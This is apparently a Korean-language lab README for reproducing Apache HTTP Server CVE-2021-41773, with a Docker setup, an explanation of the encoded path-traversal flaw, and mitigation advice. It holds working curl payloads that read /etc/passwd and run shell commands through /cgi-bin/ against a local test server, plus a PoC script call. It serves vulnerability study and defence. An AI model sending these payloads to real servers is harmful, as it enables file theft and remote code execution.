


# Apache HTTP Server Path Traversal 및 원격 코드 실행 (CVE-2021-41773)

Contributors

- [이도희(@dhhi0101)](https://github.com/dhhi0101)

Apache HTTP Server는 세계에서 가장 널리 사용되는 오픈 소스 웹 서버이다.

Apache HTTP Server 2.4.49 버전의 path normalization 과정에서 URL 인코딩된 `.%2e`가 올바르게 정규화되지 않아 `../` 우회가 가능한 Path Traversal 취약점이 발견되었다. 이를 통해 `Alias` 또는 `ScriptAlias`로 매핑된 디렉터리 밖의 파일에 접근할 수 있으며, 결과적으로 시스템 파일(`/etc/passwd` 등)을 읽을 수 있다. `mod_cgi`가 활성화된 환경에서는 원격 코드 실행(RCE)까지 가능하다. 공개 직후 실제 공격에서 활발히 악용된 사례가 보고되었다. Apache HTTP Server 2.4.50에서 수정이 시도되었으나 불완전하여(CVE-2021-42013), 최종적으로 2.4.51에서 해결되었다.

참고 자료:

- https://nvd.nist.gov/vuln/detail/CVE-2021-41773
- https://httpd.apache.org/security/vulnerabilities_24.html
- https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773

## 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE 번호 | CVE-2021-41773 |
| 영향 소프트웨어 | Apache HTTP Server 2.4.49 |
| CVSS 점수 | 7.5 (Path Traversal) / 9.8 (RCE, mod_cgi 활성화 시) |
| 취약점 유형 | Path Traversal, Remote Code Execution |
| 패치 버전 | Apache HTTP Server 2.4.51 이상 |

## 취약 조건

다음 조건이 모두 충족될 때 취약점이 발현된다:

1. Apache HTTP Server 버전이 **2.4.49**일 것
2. `Alias` 또는 `ScriptAlias`로 매핑된 디렉토리(`/icons/`, `/cgi-bin/` 등)가 존재할 것
3. 해당 디렉토리에 `Require all denied` 설정이 없을 것 (기본 보호 설정 부재)
4. RCE를 위해서는 추가로 `mod_cgi` 또는 `mod_cgid`가 활성화되어 있을 것

## 환경 구성

사전 요구사항:

- Docker, Docker Compose
- Python 3.x (표준 라이브러리만 사용하므로 별도 패키지 설치 불필요)

Apache HTTP Server 2.4.49를 시작하기 위해 다음 명령을 실행한다:

```
docker compose up --build -d
```

서버가 시작된 후 `http://127.0.0.1:8080`에서 Apache 기본 페이지(`It works!`)를 확인할 수 있다. (`127.0.0.1`은 로컬호스트이며, Windows·macOS 모두 동일하게 사용한다.)



## 재현 절차

### 1. Path Traversal — /etc/passwd 읽기

`/icons/` 경로를 이용해 Alias로 매핑된 디렉터리를 벗어나 시스템 파일(`/etc/passwd` 등)에 접근할 수 있다:

```
curl -v --path-as-is http://127.0.0.1:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

`%2e`는 `.`의 URL 인코딩이다. Apache 2.4.49의 path normalization 과정에서 `.%2e`를 `../`로 올바르게 정규화하지 못해, Alias로 매핑된 `/icons/` 디렉터리 밖으로 탈출할 수 있다.

### 2. 원격 코드 실행 (RCE)

`mod_cgid`가 활성화되어 있으므로 `/cgi-bin/` 경로를 통해 임의 명령을 실행할 수 있다:

```
curl -v --path-as-is --data "echo;id" "http://127.0.0.1:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

### 3. PoC 스크립트 실행

다음 명령으로 PoC를 실행한다 (외부 라이브러리 불필요):

```
python3 poc.py 127.0.0.1 8080
```

PoC는 Path Traversal로 `/etc/passwd`를 읽은 뒤, RCE로 `id` 및 `uname -a` 명령을 실행한다:



## 환경 종료

```
docker compose down
```

## 대응 방안

- Apache HTTP Server **2.4.51 이상**으로 업데이트한다.
- `mod_cgi` / `mod_cgid`를 사용하지 않는 경우 해당 모듈을 비활성화한다.
- 모든 디렉토리에 대해 `Require all denied`를 기본값으로 설정하고, 필요한 경로만 명시적으로 허용한다.
